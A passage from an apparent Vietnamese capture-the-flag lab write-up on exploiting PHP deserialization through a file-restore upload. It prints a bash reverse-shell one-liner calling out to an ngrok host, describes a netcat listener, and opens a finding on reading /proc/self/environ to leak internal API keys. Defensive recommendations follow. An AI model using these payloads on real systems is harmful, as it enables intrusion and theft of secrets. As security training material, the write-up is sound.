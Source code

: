 Sau đó mình gửi file này lên chỗ `Restore`. 

![image](https://hackmd.io/_uploads/r1tlidyMgg.png)
<p style="text-align:center"><em>Request trả về trên webhook</em></p>

Như vậy, mình hoàn toàn có thể tạo 1 `reverse shell` để RCE.

Sau đó, mình thay đổi payload thành 1 `reverse shell` như sau: 
```bash
'bash -c "bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/YOUR_PORT 0>&1"'
```

![image](https://hackmd.io/_uploads/BJoi2dyMex.png)
<p style="text-align:center"><em>Thay đổi payload</em></p>

Ta sử dụng `ngrok` để công khai một cổng TCP trên máy local ra Internet.

![image](https://hackmd.io/_uploads/rJdzpOJzel.png)
<p style="text-align:center"><em>Public một kết nối TCP ra ngoài internet bằng ngrok</em></p>

![image](https://hackmd.io/_uploads/r1ABp_kfle.png)
<p style="text-align:center"><em>Mở kết nối TCP ở local để chờ reverse shell</em></p>

Sau khi gửi file `payload` đã tạo lên chỗ `Restore`, lệnh `bash` sẽ kết nối đến host và port được cung cấp bởi ngrok, từ đó ánh xạ về `netcat` đang chờ sẵn.

![image](https://hackmd.io/_uploads/r1h70uJzlx.png)
<p style="text-align:center"><em>Kết nối thông qua reverse shell thành công</em></p>

`Flag 3 : CBJS{ee7f0a97dc5d3a16ed58043e3ffe617a}`

## Recommendations 
- Không sử dụng `unserialize()` với dữ liệu không tin cậy từ người dụng.
- Gỡ hoặc nâng cấp các thư viện dễ bị khai thác RCE.
- Thêm cơ chế kiểm tra chữ ký hoặc checksum cho file cấu hình.

## References 
- https://github.com/ambionics/phpggc
- https://portswigger.net/web-security/deserialization#how-to-prevent-insecure-deserialization-vulnerabilities
- https://portswigger.net/web-security/deserialization/exploiting#gadget-chains

## 6. CBL-06: Path Travesal in Web Internal via `/proc/self/environ` Leak `INTERNAL_SERVICE_API_KEY` and `INTERNAL_SERVICE_URL`

### Description and Impact 
Từ lỗ hổng **CBL-05**, kẻ tấn công có thể đọc được `/proc/self/environ` từ đây để lộ ra nhiều thông tin nhạy cảm trong đó có `INTERNAL_SERVICE_API_KEY` và `INTERNAL_SERVICE_URL`. Đặc biệt là các khóa API liên quan đến nội bộ. 
Từ đó kẻ tấn công có thể tác động sâu hơn vào trong hệ thông nội bộ.
